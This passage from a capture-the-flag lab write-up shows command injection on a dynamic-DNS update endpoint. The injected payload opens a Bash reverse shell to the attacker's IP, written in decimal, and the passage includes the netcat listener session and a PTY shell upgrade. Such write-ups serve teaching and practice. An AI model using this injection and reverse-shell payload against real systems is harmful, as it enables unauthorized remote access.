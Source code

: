 

That's actually two pings, so the injection must have taken place twice.

### Shell

To get a shell, I'll use the standard Bash reverse shell, just using my
IP in decimal form:



    oxdf@parrot$ curl -G --data-urlencode 'hostname=$(/bin/bash -c "bash -i >& /dev/tcp/168431112/443 0>&1").no-ip.htb' 'http://dynadns:sndanyd@10.10.10.244/nic/update'



It hangs, but at a listening `nc`, there's a shell as www-data (as
expected):



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.244] 37680
    bash: cannot set terminal process group (716): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@dynstr:/var/www.md/nic$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll upgrade the shell using the standard trick with Python:



    www-data@dynstr:/var/www.md/nic$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    www-data@dynstr:/var/www.md/nic$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@dynstr:/var/www.md/nic$



## Shell as bindmgr

### Enumeration

#### Users

There are two users on the box:



    www-data@dynstr:/home$ ls
    bindmgr  dyna
